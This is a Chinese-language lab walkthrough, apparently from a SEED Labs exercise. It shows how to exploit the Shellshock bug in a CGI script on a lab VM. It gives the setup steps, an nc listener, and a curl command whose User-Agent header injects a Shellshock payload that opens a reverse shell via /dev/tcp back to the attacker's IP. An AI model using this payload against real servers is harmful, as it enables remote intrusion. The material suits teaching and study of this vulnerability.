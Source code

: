 ## 利用Shellshock攻击CGI程序

（本实验以通过攻击创建反向shell为例，提供Windows下的curl和nc程序）

### 1. 配置环境

（网络环境）假设攻击者A（Windows宿主机）的IP为IPA，服务器B（SeedLab虚拟机）的IP为IPB，配置网络环境使得两者可以互相ping通。

+ Windows关闭防火墙
+ 通过ifconfig、ipconfig查看IP地址，宿主机可能包括多个网卡和IP4，使用与虚拟机同一网段的IP地址。

（启动Web服务）在服务器上：sudo service apache2 start

（创建test.cgi文件）sudo vim /usr/lib/cgi-bin/test.cgi
```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```
这时 curl http://IPB/cgi-bin/test.cgi 应该可以看到Hello World。

### 2. 攻击者创建监听

```bash
nc.exe -lv -p 9090
```

### 3. 发起攻击

```bash
curl.exe -A "() { echo hello;}; echo Content_type: text/plain; echo; echo; /bin/bash -i > /dev/tcp/IPA/9090 0<&1 2>&1" http://IPB/cgi-bin/test.cgi
```
这时可以获得一个服务器的shell。